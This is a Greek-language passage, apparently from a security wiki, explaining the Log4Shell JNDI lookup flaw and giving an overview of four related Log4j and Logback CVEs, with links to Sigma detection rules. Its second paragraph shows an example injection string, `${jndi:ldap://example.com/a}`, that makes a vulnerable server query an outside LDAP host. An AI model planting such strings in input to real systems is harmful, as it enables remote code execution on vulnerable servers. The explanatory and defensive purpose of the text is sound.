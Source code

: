 [**LOG4J2-313**](https://issues.apache.org/jira/browse/LOG4J2-313) εισήγαγε μια δυνατότητα `jndi` Lookup. Αυτή η δυνατότητα επιτρέπει την ανάκτηση μεταβλητών μέσω JNDI. Συνήθως, το κλειδί προεπιλέγεται αυτόματα με το `java:comp/env/`. Ωστόσο, εάν το κλειδί περιλαμβάνει ένα **":"**, αυτό το προεπιλεγμένο πρόθεμα δεν εφαρμόζεται.

Με ένα **: παρόν** στο κλειδί, όπως στο `${jndi:ldap://example.com/a}` δεν υπάρχει **πρόθεμα** και ο **LDAP server ερωτάται για το αντικείμενο**. Και αυτές οι Lookups μπορούν να χρησιμοποιηθούν τόσο στη διαμόρφωση του Log4j όσο και όταν καταγράφονται γραμμές.

Επομένως, το μόνο που χρειάζεται για να αποκτήσετε RCE είναι μια **ευάλωτη έκδοση του Log4j που επεξεργάζεται πληροφορίες που ελέγχονται από τον χρήστη**. Και επειδή αυτή είναι μια βιβλιοθήκη που χρησιμοποιείται ευρέως από εφαρμογές Java για την καταγραφή πληροφοριών (συμπεριλαμβανομένων των εφαρμογών που είναι εκτεθειμένες στο Διαδίκτυο), ήταν πολύ συνηθισμένο να έχει το log4j να καταγράφει για παράδειγμα HTTP headers που λαμβάνονται όπως το User-Agent. Ωστόσο, το log4j **δεν χρησιμοποιείται μόνο για την καταγραφή HTTP πληροφοριών αλλά και οποιαδήποτε είσοδο** και δεδομένα που υποδεικνύει ο προγραμματιστής.

## Overview of Log4Shell-Related CVEs

### [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) **\[Critical]**

Αυτή η ευπάθεια είναι μια κρίσιμη **ευπάθεια μη αξιόπιστης αποσειριοποίησης** στο συστατικό `log4j-core`, που επηρεάζει εκδόσεις από 2.0-beta9 έως 2.14.1. Επιτρέπει **απομακρυσμένη εκτέλεση κώδικα (RCE)**, επιτρέποντας στους επιτιθέμενους να καταλάβουν συστήματα. Το ζήτημα αναφέρθηκε από τον Chen Zhaojun από την ομάδα ασφαλείας της Alibaba Cloud και επηρεάζει διάφορα πλαίσια Apache. Η αρχική διόρθωση στην έκδοση 2.15.0 ήταν ελλιπής. Οι κανόνες Sigma για άμυνα είναι διαθέσιμοι ([Rule 1](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web\_cve\_2021\_44228\_log4j\_fields.yml), [Rule 2](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web\_cve\_2021\_44228\_log4j.yml)).

### [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046) **\[Critical]**

Αρχικά αξιολογήθηκε ως χαμηλή αλλά αργότερα αναβαθμίστηκε σε κρίσιμη, αυτή η CVE είναι μια **ευπάθεια Άρνησης Υπηρεσίας (DoS)** που προκύπτει από μια ελλιπή διόρθωση στην 2.15.0 για την CVE-2021-44228. Επηρεάζει μη προεπιλεγμένες ρυθμίσεις, επιτρέποντας στους επιτιθέμενους να προκαλέσουν επιθέσεις DoS μέσω κατασκευασμένων payloads. Ένα [tweet](https://twitter.com/marcioalm/status/1471740771581652995) παρουσιάζει μια μέθοδο παράκαμψης. Το ζήτημα επιλύθηκε στις εκδόσεις 2.16.0 και 2.12.2 με την αφαίρεση προτύπων αναζήτησης μηνυμάτων και την απενεργοποίηση του JNDI από προεπιλογή.

### [CVE-2021-4104](https://nvd.nist.gov/vuln/detail/CVE-2021-4104) **\[High]**

Επηρεάζει **εκδόσεις Log4j 1.x** σε μη προεπιλεγμένες ρυθμίσεις που χρησιμοποιούν `JMSAppender`, αυτή η CVE είναι μια ευπάθεια μη αξιόπιστης αποσειριοποίησης. Δεν είναι διαθέσιμη διόρθωση για τον κλάδο 1.x, ο οποίος είναι εκτός υποστήριξης, και συνιστάται η αναβάθμιση σε `log4j-core 2.17.0`.

### [CVE-2021-42550](https://nvd.nist.gov/vuln/detail/CVE-2021-42550) **\[Moderate]**

Αυτή η ευπάθεια επηρεάζει το **Logback logging framework**, διάδοχο του Log4j 1.x. Προηγουμένως θεωρούμενο ασφαλές, το πλαίσιο βρέθηκε ευάλωτο, και νέες εκδόσεις (1.3.0-alpha11 και 1.2.9) έχουν κυκλοφορήσει για να αντιμετωπίσουν το ζήτημα.
